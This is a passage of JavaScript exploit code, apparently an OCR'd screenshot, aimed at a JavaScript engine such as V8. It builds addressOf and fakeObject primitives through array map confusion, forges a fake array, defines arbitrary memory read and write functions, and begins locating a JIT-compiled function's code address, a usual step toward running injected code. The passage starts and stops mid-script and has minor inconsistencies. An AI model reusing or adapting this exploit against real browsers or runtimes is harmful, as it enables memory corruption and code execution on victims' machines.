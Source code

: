 ```javascript
var obj_arr = arr[1];
console.log('-------------------');
// %DebugPrint(float_arr);
// %DebugPrint(obj_arr);

var float_arr_map_idx =4;
var obj_arr_map_idx = 14;
var float_arr_map = float_arr[float_arr_map_idx];
var obj_arr_map = float_arr[obj_arr_map_idx];
console.log('[*]float_arr_map:',hex(f2i(float_arr_map)));
console.log('[*]obj_arr_map:',hex(f2i(obj_arr_map)));

function addressOf(obj2leak) {
    obj_arr[0] = obj2leak;
    float_arr[obj_arr_map_idx] = float_arr_map;
    let re = obj_arr[0];    //leaked_addr
    float_arr[obj_arr_map_idx] = obj_arr_map;    
    return f2i(re);
}

function fakeObject(addr2fake) {
    float_arr[obj_arr_map_idx] = float_arr_map;
    obj_arr[0] = i2f(addr2fake);
    float_arr[obj_arr_map_idx] = obj_arr_map;
    return obj_arr[0];
}


var fake_arr_to_obj = [
    float_arr_map,  //map
    i2f([0,0]),    //properties
    i2f([0xdeade,0xdeaddead]),   //elements
    i2f([0x0,0x100]),     //length
    1.1,2.2
].slice(0);


var fake_obj_addr = addressOf(fake_arr_to_obj);
console.log('[*]fake_obj_addr:',hex(f2i((fake_obj))));
fake_obj_addr[0] -= 0x30;
var fake_obj = fakeObject(fake_obj_addr);
// %DebugPrint(fake_obj);

function arb_read(read_addr) {
    read_addr[0]-= 0x10;
    fake_arr_to_obj[2] = i2f(read_addr);
    var leaked_data = fake_obj[0];
    return f2i(leaked_data);
}

function arb_write(write_addr, value) {
    // /console.log('writeaddr:',hex(write_addr));
    write_addr[0] -= 0x10;
    fake_arr_to_obj[2] = i2f(write_addr);
    //write_addr[0] += 0x10;
    fake_obj[0] = i2f(value);
} 

let code_offset = 0x30;
let jit_func_addr = addressOf(big_jit_func);
//jit_func_addr[0] += 0x10;
jit_func_addr[0] += code_offset;
var code_addr = arb_read(jit_func_addr);
```